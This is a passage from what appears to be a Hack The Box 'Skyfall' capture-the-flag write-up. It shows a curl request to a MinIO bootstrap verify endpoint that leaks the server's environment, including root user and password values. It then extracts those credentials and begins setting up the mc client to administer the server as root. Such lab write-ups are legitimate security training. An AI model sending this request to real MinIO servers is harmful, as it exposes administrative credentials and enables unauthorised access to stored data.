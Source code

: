 **cURL** is a command-line tool used to interact with the web through the terminal.

```bash
$ curl -i -s -k -X $'POST' \
    -H $'Host: prd23-s3-backend.skyfall.htb' -H $'User-Agent: curl/8.5.0' -H $'Accept: /' -H $'Content-Length: 2' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' \
    --data-binary $'{}' \
    $'http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify'

# Sensitive Data
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
```

- **-i** to show response header in output
- **-s** to remain silent
- **-k** for insecure communication
- **-X** for request method
- **-H** for Headers
- **--data-binary** for **HTTP POST** binary data

```
MINIO_ROOT_USER : 5GrE1B2YGGyZzNHZaIww
MINIO_ROOT_PASSWORD : GkpjkmiVmpFuL2d3oRx0
```

Now that we have both the **root_user** and **root_password**, I found on the MinIO user management page that the root user has access to all actions and resources on the deployment. So, for management purposes, we need **mc** (which is the MinIO client used to interact with the MinIO server remotely). [Reference](https://min.io/docs/minio/linux/administration/identity-access-management/minio-user-management.html)

You can download **mc** using the following command: [Reference](https://github.com/minio/mc#gnulinux)

```bash
$ wget https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
./mc --help
```

On the same page, it is written that we can create an alias with **MinIO Cloud Storage** using `mc alias` by providing the user secret and secret key, and we have both in our case for the root user. [Reference](https://github.com/minio/mc?tab=readme-ov-file#example---minio-cloud-storage)
### Listing Content of MinIO using mc
